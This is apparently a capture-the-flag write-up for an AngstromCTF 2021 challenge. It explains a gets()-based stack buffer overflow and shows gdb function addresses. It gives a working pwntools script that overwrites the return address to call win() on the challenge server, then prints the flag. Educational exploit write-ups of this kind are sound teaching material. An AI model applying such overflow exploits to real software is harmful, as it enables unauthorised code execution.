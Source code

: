 # AngstromCTF2021
Looking at the sourcecode we see that executing the function `win` will print the flag. We also notice that `gets` is used for input. This enables to overwrite the instruction pointer and make the program execute the `win` function.

Disassembling the program with gdb we find the address of the `win` function:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  setbuf@plt
0x0000000000401050  printf@plt
0x0000000000401060  fgets@plt
0x0000000000401070  strcmp@plt
0x0000000000401080  gets@plt
0x0000000000401090  fopen@plt
0x00000000004010a0  exit@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  win
0x0000000000401204  vuln
0x0000000000401261  main
0x00000000004012a0  __libc_csu_init
0x0000000000401310  __libc_csu_fini
0x0000000000401318  _fini
```
Thus if we're able to overwrite the instruction pointer with `0x00401196` we can get the flag. By trial and error we find the offset need to overwrite the instruction pointer to be 72.

Coding it all up we get:
```
from pwn import *

win_addr = b"\x96\x11\x40\x00"
payload = b"\x41"*72 + win_addr

conn = remote('shell.actf.co', 21830)
response = conn.recvline()
print(response)
conn.sendline(payload)
response = conn.recvline()
print(response)
response = conn.recvline()
print(response)
```
This returns the flag: `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`

